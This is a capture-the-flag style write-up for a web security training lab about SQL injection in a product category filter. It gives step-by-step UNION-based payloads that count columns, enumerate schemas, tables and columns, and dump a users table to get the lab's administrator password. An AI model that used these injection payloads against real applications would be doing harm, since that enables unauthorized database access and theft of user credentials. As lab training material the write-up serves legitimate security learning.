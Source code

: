 # Description
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the `administrator` user.
# Solution
Firstly, verify how much the columns are:
```
' UNION SELECT null,null--
```
=> Get the needed response as the **Content-Length** is stark different -> required 2 columns.

Conduct DB enumeration:
- List all databases => **pg_catalog** database
```
cn' UNION select schema_name,null from INFORMATION_SCHEMA.SCHEMATA-- - 
```

- List all of tables on database => special table_name is **users_gfumla**
```
' UNION SELECT table_name,null FROM information_schema.tables
```

- List all of columns on database, get filtered by specified table.
```
' UNION SELECT column_name,table_name FROM information_schema.columns where table_name = 'users_gfumla'--
```

![](../../Image/Pasted%20image%2020250514083901.png)

=> There are 3 fields inside table.

- Select the specified fields
```
' UNION SELECT username_ncduwr,password_ivemif FROM users_gfumla-- -
```

![](../../Image/Pasted%20image%2020250514084547.png)

=> administrator:xojlln0vj9jwavs0ihxl